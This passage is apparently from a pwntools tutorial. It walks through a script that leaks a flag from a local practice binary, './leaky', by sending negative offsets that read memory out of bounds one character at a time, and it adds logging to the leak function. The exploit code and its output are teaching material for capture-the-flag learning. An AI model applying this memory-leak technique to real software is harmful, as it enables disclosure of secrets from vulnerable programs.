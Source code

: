 If we run this script, we leak the flag.

```bash
$ ./demo_pwn.py
[+] Starting local process './leaky': Done
The flag is: SECRETFLAG
[*] Stopped program './leaky'
```

## Logging

The previous example was a bit... quiet.
Fortunately, pwntools has nicely separated logging capabilities to make things more verbose for debugging and progress-viewing purposes.
Let's log each of our steps within the `leak_char` function.

```python
def leak_char(offset):
    # "Give me an index and I'll tell you what's there!\n
    io.recvline()

    # Send offset
    log.info("Sending request for offset: " + str(offset))
    io.sendline(str(offset))

    # Here you go\n
    result = io.recvline()
    log.info("Got back raw response: {}".format(result))

    # Parse the result
    leaked_char = result.split(b'go: ')[1].split(b' ')[1].split(b'\n')[0]
    log.info("Parsed char: {}".format(leaked_char))
    return leaked_char
```

Now the output should be much more verbose:

```text
[+] Starting local process './leaky': Done
[*] Sending request for offset: -10
[*] Got back raw response: Okay, here you go: 0xffb14948 S
[*] Parsed char: S
[*] Sending request for offset: -9
[*] Got back raw response: Okay, here you go: 0xffb14949 E
[*] Parsed char: E
[*] Sending request for offset: -8
[*] Got back raw response: Okay, here you go: 0xffb1494a C
[*] Parsed char: C
[*] Sending request for offset: -7
[*] Got back raw response: Okay, here you go: 0xffb1494b R
[*] Parsed char: R
[*] Sending request for offset: -6
[*] Got back raw response: Okay, here you go: 0xffb1494c E
[*] Parsed char: E
[*] Sending request for offset: -5
[*] Got back raw response: Okay, here you go: 0xffb1494d T
[*] Parsed char: T
[*] Sending request for offset: -4
[*] Got back raw response: Okay, here you go: 0xffb1494e F
[*] Parsed char: F
[*] Sending request for offset: -3
[*] Got back raw response: Okay, here you go: 0xffb1494f L
[*] Parsed char: L
[*] Sending request for offset: -2
[*] Got back raw response: Okay, here you go: 0xffb14950 A
[*] Parsed char: A
```